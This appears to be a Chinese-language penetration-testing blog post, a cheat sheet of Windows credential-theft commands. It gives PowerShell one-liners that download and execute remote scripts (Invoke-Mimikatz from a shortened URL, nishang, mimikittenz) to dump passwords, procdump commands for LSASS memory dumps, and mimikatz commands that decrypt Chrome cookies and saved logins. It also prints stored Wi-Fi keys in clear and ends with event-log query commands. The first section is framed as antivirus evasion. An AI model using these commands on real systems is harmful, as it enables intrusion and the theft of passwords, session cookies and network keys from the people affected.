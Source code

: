 ```yaml
---
layout:     post
title:       Mimikatz读取chrome浏览器cookies，password
subtitle:   Mimikatz读取密码
date:       2020-06-29
author:     BugMan
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - google
    - 渗透测试

---
```

### 1.2免杀抓取密码的两种方式

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds"
tips:powershell 默认windows visa后才有
```

procdump lsass 进程导出技巧
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp //For 32 bits

C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp //For 64 bits
然后本地使用mimikatz 还原密码
### mimikatz 读取chrome cookies

```
mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\USERDA~1" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit //读chrome密码
```
### powershell 常用工具的信息收集工具

FTP访问、共享连接、putty连接 驱动、应用程序、hosts 文件、进程、无线网络记录

```
powershell "IEX (New-Object Net.WebClient).DownloadString(' https://github.com/samratashok/nishang/tree/master/Gather/Gather/Get-Information.ps1'); Get-Information"
```

正则过滤进程密码，已测windows7

```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1'); Invoke-mimikittenz

sqlserver密码获取工具Get-MSSQLCredentialPasswords.psm1 //未测
```
### 查看wifi密码
```
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do  @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```

### 2.3 windows log的信息查看

windows自带的命令就可以

日志查看收集

#### 1、Windows2003下默认存在eventquery.vbs

```
cscript c:\WINDOWS\system32\eventquery.vbs /fi "Datetime eq 06/24/2015,01:00:00AM-06/24/2015,10:00:00AM" /l Security /V #查看SECURITY日志 2015-6.24 上午1点-上午10点日志
```

#### 2 windows 7以上wevtutil 命令

```
wevtutil qe security /rd:true /f:text /q:"*[system/eventid=4624 and 4623 and 4627]" #查询所有登录、注销相关的日志语法
```

#### 3.第三方信息收集工具LogParser.exe psloglist.exe等



